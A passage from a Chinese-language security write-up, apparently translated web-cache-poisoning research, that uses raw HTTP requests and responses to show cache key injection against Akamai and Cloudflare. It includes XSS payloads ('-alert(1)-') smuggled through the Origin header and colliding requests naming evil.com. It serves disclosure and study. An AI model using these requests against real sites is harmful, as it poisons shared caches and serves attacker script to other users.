 ```
GET /?x=2 HTTP/1.1
Origin: '-alert(1)-'

HTTP/1.1 200 OK
X-True-Cache-Key: /D/000/example.com/ cid=x=2__Origin='-alert(1)-'

&lt;script&gt;…'-alert(1)-'…&lt;/script&gt;

```

这个点确实很难利用，但是如果像Akamai这样不转义分隔符直接将所有的cache key元素拼接成一个字符串的情况呢？

我们可以构造两个拥有相同cache key的不同请求，如下：

```
GET /?x=2 HTTP/1.1
Origin: '-alert(1)-'__

HTTP/1.1 200 OK
X-True-Cache-Key: /D/000/example.com/ cid=x=2__Origin='-alert(1)-'__

```

```
GET /?x=2__Origin='-alert(1)-' HTTP/1.1

HTTP/1.1 200 OK
X-True-Cache-Key: /D/000/example.com/ cid=x=2__Origin='-alert(1)-'__
X-Cache: TCP_HIT

&lt;script&gt;…'-alert(1)'-…&lt;/script&gt;

```

我们先发送第一个请求，然后引导我们的目标访问第二个url,这样就完成了漏洞利用！

当然Akamai已经修复了这个漏洞，但是如果你发现同样的策略适用于host头，那么你就可以完全控制使用该cdn的所有站点

### <a class="reference-link" name="Cloudflare%E4%B8%AD%E7%9A%84cache%20key%E6%B3%A8%E5%85%A5"></a>Cloudflare中的cache key注入

轻松搞定了Akamai,我决定试试cloudflare。但是它不想akamai那样在响应头中告诉你cache key,所以我们需要去翻一翻文档，然后我发现默认的cache key组成是这样的：

```
$`{`header:origin`}`::$`{`scheme`}`://$`{`host_header`}`$`{`uri`}`
```

这意味着下面两个请求拥有相同的cache key:

```
GET /foo.jpg?bar=x HTTP/1.1
Host: example.com
Origin: http://evil.com::http://example.com/foo.jpg?bar=x
```

```
GET /foo.jpg?bar=argh::http://example.com/foo.jpg?bar=x HTTP/1.1
Host: example.com
Origin: http://evil.com
```
